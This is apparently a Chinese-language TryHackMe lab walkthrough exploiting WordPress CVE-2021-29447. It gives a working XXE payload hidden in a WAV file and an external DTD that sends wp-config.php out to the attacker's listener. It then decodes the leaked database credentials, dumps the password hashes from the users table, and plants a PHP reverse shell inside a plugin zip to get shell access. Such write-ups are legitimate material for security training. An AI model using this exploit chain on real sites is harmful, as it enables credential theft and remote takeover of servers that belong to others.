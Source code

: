 ```yaml
---
sidebar_position: 64
tags: [Easy, 密码学, 数据库-Mysql]
title: "Wordpress: CVE-2021-29447"
description: "Wordpress: CVE-2021-29447"
sidebar_label: "Wordpress: CVE-2021-29447"
slug: /tryhackme/64
---
```

# Wordpress: CVE-2021-29447
## 端口扫描
```bash
root@ip-10-10-102-238:~/wordpresscve202129447# nmap -sT -p- --min-rate 1000 10.10.149.143

Starting Nmap 7.60 ( https://nmap.org ) at 2023-09-04 08:00 BST
Nmap scan report for ip-10-10-149-143.eu-west-1.compute.internal (10.10.149.143)
Host is up (0.00044s latency).
Not shown: 65532 closed ports
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
3306/tcp open  mysql
MAC Address: 02:8A:A4:33:36:5B (Unknown)

Nmap done: 1 IP address (1 host up) scanned in 2.54 seconds
```

## 80
根据题目的描述提前告诉了我们一个账号密码, 我们使用其进行登陆, 并构造一个 wav 文件进行上传

```bash
root@ip-10-10-102-238:~/wordpresscve202129447# echo -en 'RIFF\xb8\x00\x00\x00WAVEiXML\x7b\x00\x00\x00<?xml version="1.0"?><!DOCTYPE ANY[<!ENTITY % remote SYSTEM '"'"'http://10.10.102.238:8000/NAMEEVIL.dtd'"'"'>%remote;%init;%trick;]>\x00' > payload.wav
```

构造文件后, 在本地编写对应的 DTD 文件, 

```bash
root@ip-10-10-102-238:~/wordpresscve202129447# cat NAMEEVIL.dtd 
<!ENTITY % file SYSTEM "php://filter/zlib.deflate/read=convert.base64-encode/resource=/var/www/html/wp-config.php">

<!ENTITY % init "<!ENTITY &#x25; trick SYSTEM 'http://10.10.102.238:8000/?p=%file;'>" >
%init;
%trick;
```

在 Wordpress 中上传 wav 文件, 并在本地开启对应的监听就可以获取到其返回

![20240703134624](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240703134624.png)

编写对应的 PHP 代码进行解析返回的内容

```bash
root@ip-10-10-102-238:~/wordpresscve202129447# cat 2.php 
<?php echo zlib_decode(base64_decode('base64here')); ?>
```

解析后, 我们应该得到一个 Mysql 的账号密码:

```bash
/** MySQL database username */
define( 'DB_USER', 'thedarktangent' );

/** MySQL database password */
define( 'DB_PASSWORD', 'sUp3rS3cret132' );
```

使用此进行登陆 Mysql,  并从用户表中获取到另一个用户的账号

```bash
mysql> SELECT *  FROM wptry_users;
+----+------------+------------------------------------+---------------+------------------------------+----------------------------------+---------------------+-----------------------------------------------+-------------+------------------+
| ID | user_login | user_pass                          | user_nicename | user_email                   | user_url                         | user_registered     | user_activation_key                           | user_status | display_name     |
+----+------------+------------------------------------+---------------+------------------------------+----------------------------------+---------------------+-----------------------------------------------+-------------+------------------+
|  1 | corp-001   | $P$B4fu6XVPkSU5KcKUsP1sD3Ul7G3oae1 | corp-001      | corp-001@fakemail.com        | http://192.168.85.131/wordpress2 | 2021-05-26 23:35:28 |                                               |           0 | corp-001         |
|  2 | test-corp  | $P$Bk3Zzr8rb.5dimh99TRE1krX8X85eR0 | test-corp     | test-corp@tryhackme.fakemail |                                  | 2021-05-26 23:47:32 | 1622072852:$P$BJWv.2ehT6U5Ndg/xmFlLobPl37Xno0 |           0 | Corporation Test |
+----+------------+------------------------------------+---------------+------------------------------+----------------------------------+---------------------+-----------------------------------------------+-------------+------------------+
```

破解此密码, 获取到用户 corp-001 的密码

![20240703134638](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240703134638.png)

登陆 corp-001 用户, 我发现对于传统的修改主体模板等方式已经无法使用了, 但是我注意到可以上传插件, 所以我从 [Wordpress 插件官网](https://cn.wordpress.org/plugins/) 下载了一个插件, 并在其中移入了一个php反向 Shell, 将其上传并激活

```bash
root@ip-10-10-102-238:~/wordpresscve202129447# zip -r classic-widgets.zip classic-widgets/
  adding: classic-widgets/ (stored 0%)
  adding: classic-widgets/php-reverse-shell.php (deflated 59%)
  adding: classic-widgets/LICENSE.md (deflated 63%)
  adding: classic-widgets/readme.txt (deflated 55%)
  adding: classic-widgets/classic-widgets.php (deflated 50%)
root@ip-10-10-102-238:~/wordpresscve202129447# ls
2.php  classic-widgets  classic-widgets.zip  hash.txt  NAMEEVIL.dtd  payload.wav  php-reverse-shell.php
```
## 后渗透
### www-data
访问我们上传的 WebShell : `http://10.10.149.143//wp-content/plugins/classic-widgets/` 就可以获取到对应的用户 Shell

![20240703134714](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240703134714.png)